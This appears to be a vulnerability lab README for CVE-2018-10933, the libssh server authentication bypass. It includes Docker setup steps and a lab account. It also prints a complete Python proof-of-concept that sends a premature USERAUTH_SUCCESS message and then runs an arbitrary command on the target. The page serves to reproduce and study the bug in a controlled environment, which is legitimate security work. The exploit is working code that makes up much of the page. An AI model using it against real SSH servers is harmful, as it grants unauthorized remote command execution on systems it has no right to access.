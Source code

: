# libssh Authentication Bypass Vulnerability(CVE-2018-10933)

libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side. A logic vulnerability was found in libssh's server-side state machine. The attacker can send the `MSG_USERAUTH_SUCCESS` message before the authentication succeed. That can bypass the authentication and access the target SSH server.


Refer:

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

----------

## Setup

Start the environment:

```
docker-compose up -d
```

After the environment is started, we can connect the `your-ip:2222` port (account password: `myuser:mypassword`), which is a legal ssh login:

![](1.png)

## Expliot

Referring to the POC given in https://www.seebug.org/vuldb/ssvid-97614, we can use the following script to proof the vulnerability.

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

```

You can execute arbitrary commands on the target server like following:

![](2.png)
